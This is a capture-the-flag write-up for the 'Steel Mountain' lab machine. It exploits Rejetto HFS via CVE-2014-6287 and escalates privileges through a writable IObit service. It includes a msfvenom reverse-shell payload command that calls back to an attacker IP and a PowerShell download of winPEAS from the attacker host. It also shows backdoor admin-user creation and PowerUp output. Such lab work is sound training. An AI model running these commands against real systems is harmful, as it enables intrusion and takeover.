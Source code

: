 # STEEL MOUNTAIN
```
IP = 10.10.187.34
```

## Using Metasploit
-----------------------------
+ Ran initial nmap scan, box doesn't respond to ping
+ Rejetto HTTP File server 2.5 running on port 8080
+ Known vulnerability CVE-2014-6287 with metasploit module
+ Executed metasploit to gain user access as bill
+ Found user.txt on Bill's Desktop
+ Uploaded PowerUp.ps1 script using meterpreter
+ Ran extension using `load powershell`
+ Enter powershell using `powershell_shell`
+ Ran powerup using `. .\PowerUp.ps1` and `Invoke-AllChecks`
+ The script tells us that service can be restarted and directory to the application is writable.
+ Crafted payload using `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.4.238 LPORT=9001 -e x86/shikata_ga_nai -f exe -o Advanced.exe prependmigrateprocess=explorer.exe prependmigrate=true`
+ Started a listener using netcat in a new terminal for port 9001
+ Uploaded the payload in IObit folder and moved into a win shell
+ Stopped the service using `sc stop AdvancedSystemCareService9` 
+ Started it by using `sc start AdvancedSystemCareService9` to gain admin shell

## Without using metasploit
-----------------------------
+ Modified `windows/remote/39161.py` exploit to suit our needs
+ Created a SimpleHTTPServer running on port 80 serving nc.exe and winPEAS.exe
+ Pulled winPEAS.exe using `powershell -c wget "http://10.11.4.238/winPEAS.exe" -outfile "winPEAS.exe"` and ran it
+ `sc qc AdvancedSystemCareService9` & `icacls "Advanced SystemCare"` help determine the permissions
+ Pull the msfvenom payload created above into the IObit directory
+ Open nc listener, stop  & start service to successfully gain admin shell

## Post Exploitation 
-----------------------------
+ Add privileged user using `net user themayor !Password!123 /add`
+ Assign admin permissions to the new user, `net localgroup "Administrators" themayor /add`
+ Log into the GUI using `xfreerdp /u:themayor /p:'!Password!123' /v:10.10.187.34`

### PowerUp.ps1's Invoke-AllChecks Output
```
[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...


[*] Checking for unquoted service paths...


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
CanRestart     : False

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
CanRestart     : False

ServiceName    : LiveUpdateSvc
Path           : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'LiveUpdateSvc' -Path <HijackPath>
CanRestart     : False

ServiceName    : LiveUpdateSvc
Path           : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'LiveUpdateSvc' -Path <HijackPath>
CanRestart     : False





[*] Checking service executable and argument permissions...


ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True

ServiceName                     : IObitUnSvr
Path                            : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'IObitUnSvr'
CanRestart                      : False

ServiceName                     : LiveUpdateSvc
Path                            : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart                      : False





[*] Checking service permissions...


[*] Checking %PATH% for potentially hijackable DLL locations...


[*] Checking for AlwaysInstallElevated registry key...


[*] Checking for Autologon credentials in registry...


[*] Checking for modifidable registry autoruns and configs...


[*] Checking for modifiable schtask files/configs...


[*] Checking for unattended install files...


[*] Checking for encrypted web.config strings...


[*] Checking for encrypted application pool and virtual directory passwords...


[*] Checking for plaintext passwords in McAfee SiteList.xml files....




[*] Checking for cached Group Policy Preferences .xml files....

```